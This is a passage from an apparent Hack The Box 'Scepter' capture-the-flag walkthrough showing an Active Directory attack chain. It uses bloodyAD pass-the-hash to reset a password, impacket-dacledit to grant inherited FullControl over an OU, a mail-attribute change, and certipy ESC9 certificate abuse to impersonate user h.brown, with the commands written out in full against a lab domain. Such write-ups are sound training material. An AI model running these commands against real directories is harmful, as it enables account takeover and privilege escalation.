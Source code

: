 ```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter 'pa$$w0rd'
```
![](https://cdn-images-1.medium.com/max/1000/1*T31CXU3MQemdtKNIY0rPpQ.png)

#### GenericAll over OU

To abuse the GenericAll over an OU we can add a new ACE that will be inherited by the objects under it. Apply a GenericAll ACE to give the privilage to `a.carter` to take ownership of the objects inside:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'pa$$w0rd' 2>/dev/null
```
![](https://cdn-images-1.medium.com/max/1000/1*sU50yYCXHh2CsS3uU7O5Zw.png)

#### Change email field

We have two high-value targets: h.brown, the only user who is a member of the REMOTE MANAGEMENT USERS group, and p.adams, a member of the Domain Admins group. At this early stage of solving the machine, it won’t be p.adams who is exploitable, but in a real environment, of course, we would test both.

Using BloodyAD, we change d.baker's mail attribute to `h.brown@scepter.htb`. This allows us to request a certificate mapped implicitly to h.brown via ESC9.

With **`bloodyAD set object`**, when you want to modify attributes like mail (email) that aren't explicitly built into the tool’s predefined options, you simply supply the attribute manually using **-v**. The -v flag allows you to specify the value for any LDAP attribute, even if it's not one of the common attributes bloodyAD expects.

![](https://cdn-images-1.medium.com/max/1000/1*6Ygh14hu6g6Jb-eGTr6yzw.png)


```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'pa$$w0rd' set object d.baker mail -v h.brown@scepter.htb 
```
![](https://cdn-images-1.medium.com/max/1000/1*rjPidFptCsdYyOVIxF_cvA.png)

### ESC9 Exploitation Flow

1. Request a certificate impersonating h.brown

    ```bash
    certipy req -u d.baker -hashes :18b5fb0d99e7a475316213c15b6f22ce -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip 10.10.11.65
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*z8qpbz_ZS0KkQvZGVp6x3g.png)

2. Authenticate as h.brown using the issued certificate

    ```bash
    certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -u h.brown
    ```
